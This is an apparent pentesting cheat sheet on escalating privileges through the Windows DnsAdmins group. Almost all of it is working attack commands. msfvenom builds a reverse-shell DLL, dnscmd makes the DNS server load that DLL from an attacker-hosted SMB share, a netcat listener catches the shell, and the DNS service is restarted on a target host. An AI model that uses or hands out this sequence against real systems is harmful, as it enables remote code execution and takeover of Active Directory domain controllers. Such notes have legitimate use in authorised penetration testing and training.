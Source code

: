 # DnsAdmins
DnsAdmins is a Windows group specifically for administering DNS servers in an Active Directory environment. Members of this group have extensive control over DNS services without needing full Domain Admin privileges.

# Steps
1. Create a dll binary and upload it



# create dll with msfvenom
```language
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ip LPORT=$port -f dll -o rev.dll
```
# Inject dll
```language
dnscmd.exe /config /serverlevelplugindll \\attacker-ip\s\rev.dll
```
# smb server for Response check and start the listner
```language
smbserver.py s .

rlwrap nc -lvnp 9001
```
# start stop service
```language
sc.exe \\resolute stop dns

sc.exe \\resolute start dns
```
